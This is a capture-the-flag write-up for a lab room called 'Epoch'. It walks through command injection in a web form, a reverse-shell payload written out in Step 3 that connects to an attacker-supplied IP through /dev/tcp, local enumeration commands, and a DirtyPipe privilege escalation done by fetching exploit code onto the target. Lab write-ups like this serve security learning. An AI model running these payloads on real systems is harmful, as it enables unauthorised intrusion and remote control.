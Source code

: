 <h1>writeup-Epoch</h1>
In this writeup, i will include all the steps i took to solve the room.
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication and also asking us to check out another room related to <code>Command Injection</code>.
</h3></blockquote>

<ul>
    <li>
        <strong>Step 1 :</strong>
        <ul>
            Check out the WebApplication.<br>
            <img src="./img/webPage.png" alt="webPage"><br>
        </ul>
    </li><br>
    <li>
        <strong>Step 2 :</strong>
        <ul>
            Let's try Command Injection in the input field from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>.<br>
            <img src="./img/webPage2.png" alt="webPage2"><br>
            It works.
        </ul>
    </li><br>
    <li>
        <strong>Step 3 :</strong>
        <ul>
            Let's get a reverse shell by using this payload -> <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code>.<br>
            <img src="./img/shell.png" alt="shell"><br>
        </ul>
    </li><br>
    <li>
        <strong>Step 4 :</strong>
        <ul>
            Try to find user.txt or flag.txt using <code>find</code> command.<br>
            <Strong>FAILED!</Strong><br>
            Maybe the only flag we get is the root flag.
        </ul>
    </li><br>
    <h2>Get root</h2>
    <li>
        <strong>Step 5 :</strong>
        <ul>
            <code>sudo -l</code><br>
            <code>sh: 1: sudo: not found</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 6 :</strong>
        <ul>
            <code>crontab</code><br>
            <code>cat: /etc/crontab: No such file or directory</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 7 :</strong>
        <ul>
            <code>env</code><br>
            Found the flag.......<br>
            I might have left the room since i already have the flag but i want to see if i can get root.
        </ul>
    </li><br>
    <li>
        <strong>Step 8 :</strong>
        <ul>
            <code>find / -type f -perm -04000 2>/dev/null</code><br>
            Nothing intrest.
        </ul>
    </li><br>
    <li>
        <strong>Step 9 :</strong>
        <ul>
            <code>uname -a</code><br>
            Linux kernel version 5. <br>
            This might be vulnerable to <code>DirtyPipe</code> exploit.<br><br>
            <ol type="1">
                It's a 3 step process to execute this exploit.
                <li>
                    Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.
                </li>
                <li>
                    Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.
                </li>
                <li>
                    Compile and execute the executable using <code>gcc</code>.
                </li><br>
                <img src="./img/root.png" alt="root">
            </ol>
        </ul>
    </li><br>
</ul>
<h3>Solved 😁</h3>